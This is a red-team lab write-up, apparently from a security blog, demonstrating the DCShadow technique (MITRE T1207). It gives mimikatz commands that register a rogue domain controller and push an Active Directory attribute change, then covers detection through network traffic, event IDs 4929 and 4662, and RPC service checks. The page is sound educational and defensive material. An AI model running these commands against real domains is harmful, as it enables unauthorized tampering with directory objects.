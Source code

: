 ```yaml
---
layout: post
title: "t1207 creating rogue domain controllers with dcshadow"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1207-creating-rogue-domain-controllers-with-dcshadow/
---
```


---
layout: post
title: "t1207 creating rogue domain controllers with dcshadow"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1207-creating-rogue-domain-controllers-with-dcshadow/
---

# DCShadow - Becoming a Rogue Domain Controller

DCShadow allows an attacker with enough privileges to create a rogue Domain Controller and push changes to the DC Active Directory objects.

## Execution

For this lab, two shells are required - one running with `SYSTEM` privileges and another one with privileges of a domain member that is in `Domain admins` group:

![](../../.gitbook/assets/dcshadow-privileges.png)

In this lab, I will be trying to update the AD object of a computer `pc-w10$`. A quick way to see some of its associated properties can be achieved with the following powershell:

```csharp
PS c:\> ([adsisearcher]"(&(objectCategory=Computer)(name=pc-w10))").Findall().Properties
```

![](../../.gitbook/assets/dcshadow-computer-properties.png)

Note the `badpwcount` property which we will try to change with DCShadow by setting the value to 9999:

{% code title="mimikatz@NT/SYSTEM console" %}
```csharp
mimikatz # lsadump::dcshadow /object:pc-w10$ /attribute:badpwdcount /value=9999
```
{% endcode %}

We can now push the change to the primary Domain Controller `DC-MANTVYDAS`:

{% code title="mimikatz@Domain Admin console" %}
```csharp
lsadump::dcshadow /push
```
{% endcode %}

Below are the screenshots of the above commands and their outputs as well as the end result, indicating the `badpwcount`value getting changed to 9999:

![](../../.gitbook/assets/dcshadow-computer-properties-changed.png)

## Observations

As suggested by Vincent Le Toux who co-presented the [DCShadow](https://www.youtube.com/watch?v=KILnU4FhQbc), in order to detect this type of rogue activity, you could monitor the network traffic and suspect any non-DC hosts (our case it is the PC-W10$ with `10.0.0.7`) issuing RCP requests to DCs (our case DC-MANTVYDAS with `10.0.0.6`) as seen below:

![](../../.gitbook/assets/dcshadow-traffic.png)

Same for the logs, if you see a non-DC host causing the DC to log a `4929` event (Detailed Directory Service Replication), you may want to investigate what else is happening on that system:

![](../../.gitbook/assets/dcshadow-logs.png)

Current implementation of DCShadow in mimikatz creates a new DC and deletes its associated objects when the push is complete in a short time span and this pattern could potentially be used to trigger an alert, since creation of a new DC, related object modifications and their deletion all happening in 1-2 seconds time frame sound anomalous. Events `4662` may be helpful for identifying this:

![](../../.gitbook/assets/dcshadow-createobject.png)

![](../../.gitbook/assets/dcshadow-delete1.png)

![](../../.gitbook/assets/dcshadow-delete2.png)

Per [Luc Delsalle](https://blog.alsid.eu/@lucd?source=post\_header\_lockup)'s post on DCShadow explanation, one other suggestion for detecting rogue DCs is the idea that the computers that expose an RPC service with a GUID of `E3514235–4B06–11D1-AB04–00C04FC2DCD2`, but do not belong to a `Domain Controllers` Organizational Unit, should be investigated.&#x20;

We see that our suspicious computer exposes that exact service:

![](../../.gitbook/assets/dcshadow-services.png)

..but does not belong to a `Domain Controllers` OU:

```csharp
([adsisearcher]"(&(objectCategory=computer)(name=pc-w10))").Findall().Properties.distinguishedname
# or
(Get-ADComputer pc-w10).DistinguishedName
```

![Outputs for computer NOT belonging to DC OU and one belonging, respecitvely](../../.gitbook/assets/dcshadow-ou-dc.png)

## References

Below are the resources related to DCShadow attack. Note that there is also a link to youtube by a security company Alsid, showing how to dynamically detect DCShadow, so please watch it.

{% embed url="https://attack.mitre.org/wiki/Technique/T1207" %}

{% embed url="https://www.dcshadow.com/" %}

{% embed url="https://www.youtube.com/watch?v=KILnU4FhQbc" %}

{% embed url="https://www.youtube.com/watch?v=yWFUKwZaT_4" %}
Dynamic Detection of DCShadow
{% endembed %}

{% embed url="https://github.com/AlsidOfficial/UncoverDCShadow" %}

{% embed url="http://www.labofapenetrationtester.com/2018/04/dcshadow.html" %}

{% embed url="https://blog.alsid.eu/dcshadow-explained-4510f52fc19d" %}
@spotheplanet
